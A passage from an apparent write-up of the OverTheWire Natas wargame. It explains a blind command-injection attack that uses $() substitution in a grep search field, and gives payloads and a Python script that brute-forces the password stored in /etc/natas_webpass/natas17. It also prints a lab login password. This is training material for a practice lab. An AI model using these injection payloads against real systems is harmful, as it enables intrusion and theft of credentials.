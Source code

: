 ```python
        print(f"Failed to find character at count {count}. Stopping.")
        break

# Print the final extracted password
print(f"Final password: {password}")
```

**Side Note:** substring is not enough because it is not case-sensitive so we need to use **binary** keyword before it.

Anyway, running this code will provide us the password.

![alt text](NatasScreenshots/16.png)

# Level 17

Here things got difficult. Besides that the input is well sanitized, it is putting it between ' ' in the command so whatever we input it will get converted as a string. But what we can do is taking advantage of **\$** character as it allows us to write bash commands. For instance, \*\$(whoami)** will be converted by the output of the command which is the user name, **\$(echo hello)** will be replaced by the output of echo command which is **hello**. But even so, there is nothing much we can do as, again, whatever command we write, its output will be interpreted as a string to grep it in the **dictionary.txt\*\* file.

One clever solution is based on that when we feed it a blank text, it would return everything in the **dictionary.txt** file. This can be proven by feeding **$(echo )** in the input field which will be converted by an empty **" "** and will output to us a long list of words.

The idea is following the solution of the previous level to blindly guess the password by using **grep** command to check the existance of certain words (which will be automatically constructed from every possible character). If a feeded word exists, the grep command will be converted by the whole word which will be grepped by the original command in **dictionary.txt** and normally it won't find a match and so ouptuts nothing. If the feeded word doesn't exist, the grepp command will ouputs nothing which will eventually outputs everything from **dictionary.txt**.

To test if it works correctly, let's enumarte the existance of numbers in **/etc/natas_webpass/natas17** by the input **$(cat {n} /etc/natas_webpass/natas17)** and changing {n} with numbers from 0 to 9.

For 0, 1 and 2, it outputed nothing but for 3, it outputed everything. So we know that 0, 1 and 2 exists in the password and 3 does not.

To check the existance of the pattern at the start of the word, we use the symbole **^** as **^abc** will retrun every word that starts with **abc**.

Now, let's build a script to automate the search.

```python
import requests
import string

charset = string.ascii_letters + string.digits
password_length = 32
password = ""

session = requests.Session()
session.auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

for count in range(1, password_length + 1):
	found = False
	for char in charset:
		payload = f'$(grep ^{password}{char} /etc/natas_webpass/natas17)'
		url = "http://natas16.natas.labs.overthewire.org/?needle=" + payload + "&submit=Search" # last time it was a POST request. Here, there is no POST methode in the source code and if you check the url after submitting your input, you'll find it in this format. So here we are dealing with GET methode.
```